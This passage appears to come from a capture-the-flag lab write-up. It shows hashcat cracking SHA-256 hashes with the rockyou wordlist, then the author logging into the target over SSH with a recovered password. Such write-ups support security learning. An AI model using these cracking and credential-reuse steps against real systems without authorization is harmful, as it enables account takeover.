 ```bash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918:admin
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:REDACTED

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: hash.txt
Time.Started.....: Sun May  7 09:36:47 2023 (2 secs)
Time.Estimated...: Sun May  7 09:36:49 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4796.9 kH/s (0.26ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new)
Progress.........: 10540032/14344384 (73.48%)
Rejected.........: 0/10540032 (0.00%)
Restore.Point....: 10536960/14344384 (73.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Tiffany93 -> ThatGuy9
Hardware.Mon.#1..: Util: 46%

Started: Sun May  7 09:36:46 2023
Stopped: Sun May  7 09:36:51 2023
```

I used john's password to SSH to the server.

```bash
$ ssh john@target
john@target's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 07 May 2023 01:38:29 PM UTC

  System load:           0.38
  Usage of /:            82.4% of 6.23GB
  Memory usage:          46%
  Swap usage:            0%
  Processes:             254
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.210
```